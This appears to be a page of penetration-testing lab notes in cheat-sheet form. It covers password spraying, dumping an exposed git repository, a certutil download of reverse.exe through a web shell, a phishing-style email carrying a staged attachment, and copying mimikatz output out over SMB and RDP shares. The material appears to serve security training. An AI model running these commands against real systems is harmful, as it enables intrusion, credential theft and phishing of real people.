 <a name="password-spraying"></a>
## Password Spraying
[https://www.netexec.wiki/](https://www.netexec.wiki/)

<a name="dump-git-branches"></a>
## Dump git branches
[https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)

`kali@kali:~$ /home/kali/.local/bin/git-dumper http://192.168.202.144/.git/ .`

<a name="reverse-shell-using-certutil"></a>
## Reverse shell using certutil
`kali@kali:~$ curl -u offsec:elite "http://192.168.212.46:242/shell.php?cmd=certutil+-f+-urlcache+http://192.168.45.248/reverse.exe+reverse.exe"`

<a name="send-email"></a>
## Send email
`kali@kali:~$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt - -header "Subject: Staging Script" --suppress-data -ap`

<a name="transfer-files"></a>
## Transfer files
<a name="smb"></a>
### SMB
On Kali:
`kali@kali:~$ impacket-smbserver test . -smb2support  -username kourosh -password kourosh`

On Windows:
`C:\> net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\`

<a name="rdp-mounting-shared-folder"></a>
### RDP mounting shared folder
Using xfreerdp:
On Kali:
`kali@kali:~$ xfreerdp /cert-ignore /compression /auto-reconnect /u:offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200`

On windows:
`C:\> copy mimikatz.log \\tsclient\test\mimikatz.log`

<a name="using-rdesktop"></a>
### Using rdesktop
On Kali: 
`kali@kali:~$ rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200`
